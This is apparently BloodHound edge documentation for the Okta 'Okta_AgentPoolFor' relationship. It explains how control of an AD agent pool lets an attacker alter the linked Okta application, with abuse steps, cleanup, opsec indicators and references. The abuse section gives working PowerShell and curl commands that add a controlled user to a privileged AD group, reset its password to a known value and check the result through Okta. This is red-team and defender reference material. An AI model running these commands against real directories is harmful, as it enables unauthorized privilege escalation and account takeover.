

## General Information

Okta_AgentPoolFor edges connect an AD Okta_AgentPool to the backing Okta_Application used for directory integration.


## Abuse Info

An attacker who controls the source agent pool can compromise or influence the destination AD-backed Okta application because the pool performs the on-premises sync and authentication work for that integration. This edge is usually abused after compromising one or more agents in the pool with `Okta_HostsAgent` or `Okta_AgentMemberOf`.

The destination `Okta_Application` represents the AD integration in Okta. If the application uses delegated authentication, imports, password sync, or group sync, controlling the source pool can let the attacker affect the Okta users and groups represented by `Okta_UserSync`, `Okta_PasswordSync`, `Okta_MembershipSync`, `Okta_UserPull`, and `Okta_GroupPull`.

Using the Admin Console:

1. Compromise one or more agents in the source pool, then identify the destination AD integration application from the edge.
2. In the Okta Admin Console, open **Directory** > **Directory Integrations** > **Active Directory** and select the destination integration.
3. Review the integration's agents and confirm they belong to the source pool.
4. Review delegated authentication, import, profile mastering, password sync, and group sync settings to determine whether the app can update Okta users, validate Okta sign-ins against AD, or synchronize group membership.
5. In AD, modify the authoritative object that maps to the desired destination Okta object. Common examples are adding a controlled AD user to an imported group, changing a profile attribute consumed by Okta group rules, or resetting the AD password for a delegated-auth user.
6. Run an import from the integration if a manual import is available, or wait for the scheduled agent import.
7. Verify the destination app-user, Okta user, or Okta group changed, then use the resulting app assignment, group claim, policy condition, or delegated-auth sign-in.

Using Active Directory PowerShell and Okta API verification:

1. Set variables for the source pool, destination AD app, controlled user, and any destination group you expect the AD integration to affect.

    ```bash
    export OKTA_ORG="https://contoso.okta.com"
    export OKTA_API_TOKEN="REDACTED"
    export AGENT_POOL_ID="0ap..."
    export AD_APP_ID="0oa..."
    export CONTROLLED_OKTA_USER_ID="00u..."
    export TARGET_OKTA_GROUP_ID="00g..."
    ```

2. Verify the source pool, agent health, and pool type.

    ```bash
    curl -sS \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/agentPools?poolType=AD&limitPerPoolType=20" \
      | jq --arg pool "$AGENT_POOL_ID" '
          .[]
          | select(.id == $pool)
          | {
              id,
              name,
              type,
              operationalStatus,
              disruptedAgents,
              inactiveAgents,
              agents: ((.agents // [] | if type == "array" then . else [.] end)
                | map({id, name, active, operationalStatus, lastConnection}))
            }'
    ```

3. Inspect the destination AD application record and app-user mapping for the controlled Okta user.

    ```bash
    curl -sS \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/apps/$AD_APP_ID" \
      | jq '{id, name, label, status, signOnMode, features}'

    curl -sS \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/apps/$AD_APP_ID/users/$CONTROLLED_OKTA_USER_ID" \
      | jq '{id, externalId, scope, status, syncState, lastUpdated, passwordChanged}'
    ```

4. Make the AD-side change that the source pool will import or validate. This example both adds the controlled AD user to an imported AD group and sets a known AD password for delegated-auth testing.

    ```powershell
    Import-Module ActiveDirectory

    $ControlledAdUserSam = "alice"
    $ControlledAdUserDn = "CN=alice,OU=Users,DC=contoso,DC=com"
    $TargetAdGroupDn = "CN=Finance App Admins,OU=Groups,DC=contoso,DC=com"
    $KnownPassword = ConvertTo-SecureString "CorrectHorseBatteryStaple!42" -AsPlainText -Force

    Add-ADGroupMember -Identity $TargetAdGroupDn -Members $ControlledAdUserDn
    Set-ADAccountPassword -Identity $ControlledAdUserSam -Reset -NewPassword $KnownPassword
    Unlock-ADAccount -Identity $ControlledAdUserSam
    ```

5. After the AD agent import runs, verify the destination Okta group contains the linked Okta user.

    ```bash
    curl -sS \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/groups/$TARGET_OKTA_GROUP_ID/users?limit=200" \
      | jq -r '.[] | select(.id == env.CONTROLLED_OKTA_USER_ID) | [.id, .profile.login, .status] | @tsv'
    ```

6. Check the app-user record again for import or sync state changes.

    ```bash
    curl -sS \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/apps/$AD_APP_ID/users/$CONTROLLED_OKTA_USER_ID" \
      | jq '{id, externalId, scope, status, syncState, lastUpdated, passwordChanged}'
    ```

7. If delegated authentication is enabled, attempt an interactive Okta sign-in as the linked Okta user with the known AD password. Use the resulting session, group membership, or app assignment only after MFA and sign-on policy requirements are satisfied.

## Cleanup after Abuse

Cleanup for `Okta_AgentPoolFor` means restoring the AD source objects that the pool imported or authenticated against, returning the destination AD application to normal sync state, rotating exposed pool or service-account credentials, and revoking Okta sessions created through the temporary app influence.

Cleanup using Admin Console:

1. Open **Directory** > **Directory Integrations** > **Active Directory** and select the destination application.
2. Confirm the source pool's agents are active and that the app is not reporting import, provisioning, or delegated-auth failures.
3. Restore any delegated authentication, import, profile mastering, password sync, or group sync settings that were changed.
4. Restore the AD users, groups, passwords, and profile attributes that were modified to influence the destination app.
5. Rotate the AD agent service account or connector credentials if they were exposed from the source pool.
6. Run or wait for import and review staged changes before confirming them.
7. Verify the destination Okta user, destination group, and application assignment state have returned to the legitimate baseline.
8. Revoke sessions for any Okta user that used access gained through the temporary AD app state.

Cleanup using API:

1. Remove the temporary AD group membership and replace the attacker-known password with a legitimate reset.

    ```powershell
    Import-Module ActiveDirectory

    $ControlledAdUserSam = "alice"
    $ControlledAdUserDn = "CN=alice,OU=Users,DC=contoso,DC=com"
    $TargetAdGroupDn = "CN=Finance App Admins,OU=Groups,DC=contoso,DC=com"
    $LegitimateTempPassword = ConvertTo-SecureString "REPLACE_WITH_APPROVED_TEMP_PASSWORD" -AsPlainText -Force

    Remove-ADGroupMember -Identity $TargetAdGroupDn -Members $ControlledAdUserDn -Confirm:$false
    Set-ADAccountPassword -Identity $ControlledAdUserSam -Reset -NewPassword $LegitimateTempPassword
    Set-ADUser -Identity $ControlledAdUserSam -ChangePasswordAtLogon $true
    ```

2. Rotate the AD agent service account if source-pool control exposed that credential.

    ```powershell
    Import-Module ActiveDirectory

    $AgentServiceAccount = "OktaService"
    $NewPassword = Read-Host "New AD agent service-account password" -AsSecureString

    Set-ADAccountPassword -Identity $AgentServiceAccount -Reset -NewPassword $NewPassword
    ```

3. Verify the source pool is healthy before waiting for import convergence.

    ```bash
    curl -sS \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/agentPools?poolType=AD&limitPerPoolType=20" \
      | jq --arg pool "$AGENT_POOL_ID" '
          .[]
          | select(.id == $pool)
          | {
              id,
              name,
              type,
              operationalStatus,
              disruptedAgents,
              inactiveAgents,
              agents: ((.agents // [] | if type == "array" then . else [.] end)
                | map({id, name, active, operationalStatus, lastConnection}))
            }'
    ```

4. After import runs, confirm the destination app-user record and destination group no longer show the temporary access path.

    ```bash
    curl -sS \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/apps/$AD_APP_ID/users/$CONTROLLED_OKTA_USER_ID" \
      | jq '{id, externalId, scope, status, syncState, lastUpdated, passwordChanged}'

    curl -sS \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/groups/$TARGET_OKTA_GROUP_ID/users?limit=200" \
      | jq -r '.[] | select(.id == env.CONTROLLED_OKTA_USER_ID)'
    ```

5. Revoke sessions and OAuth tokens for the affected Okta user.

    ```bash
    curl -i -sS -X DELETE \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/users/$CONTROLLED_OKTA_USER_ID/sessions?oauthTokens=true"
    ```

## Opsec Considerations

`Okta_AgentPoolFor` abuse creates evidence in the destination AD application, the source pool, the agent hosts, and AD. Okta-side indicators include changed pool health, import/provisioning activity, `application.provision.user.sync`, `user.authentication.auth_via_AD_agent`, app-user sync changes, and new sessions or app launches by users whose access came from the AD integration.

AD-side indicators include group membership changes, password resets, account unlocks, and authentication attempts from Okta agent servers. Endpoint indicators on the source pool's agents include service restarts, agent process tampering, remote logons, PowerShell activity, and unusual access to agent directories or credential material.

## References

- [Okta Agent Pools API: List all agent pools](https://developer.okta.com/docs/api/openapi/okta-management/management/tag/AgentPools/#tag/AgentPools/operation/listAgentPools)
- [Okta Applications API](https://developer.okta.com/docs/api/openapi/okta-management/management/tag/Application/)
- [Okta Application Users API: Retrieve an application user](https://developer.okta.com/docs/api/openapi/okta-management/management/tag/ApplicationUsers/#tag/ApplicationUsers/operation/getApplicationUser)
- [Okta Group API: List all member users](https://developer.okta.com/docs/api/openapi/okta-management/management/tag/Group/#tag/Group/operation/listGroupUsers)
- [Okta view org agents status](https://help.okta.com/oie/en-us/content/topics/dashboard/view-org-agent-status.htm)
- [Okta install multiple Active Directory agents](https://help.okta.com/oie/en-us/content/topics/directory/ad-agent-install-multiple.htm)
- [Okta delegated authentication with Active Directory](https://help.okta.com/en-us/Content/Topics/Directory/Directory_AD_Delegated_Authentication.htm)
- [Okta service account permissions](https://help.okta.com/oie/en-us/content/topics/directory/ad-agent-about-service-account.htm)
- [Okta User Sessions API: Revoke all user sessions](https://developer.okta.com/docs/api/openapi/okta-management/management/tag/UserSessions/#tag/UserSessions/operation/revokeUserSessions)
- [Okta System Log event types](https://developer.okta.com/docs/reference/api/event-types/)
- [Microsoft Add-ADGroupMember](https://learn.microsoft.com/en-us/powershell/module/activedirectory/add-adgroupmember)
- [Microsoft Remove-ADGroupMember](https://learn.microsoft.com/en-us/powershell/module/activedirectory/remove-adgroupmember)
- [Microsoft Set-ADAccountPassword](https://learn.microsoft.com/en-us/powershell/module/activedirectory/set-adaccountpassword)
- [SpecterOps: Discovering Unexpected Okta Attack Paths with BloodHound](https://specterops.io/blog/2026/03/23/discovering-unexpected-okta-attack-paths-with-bloodhound/)
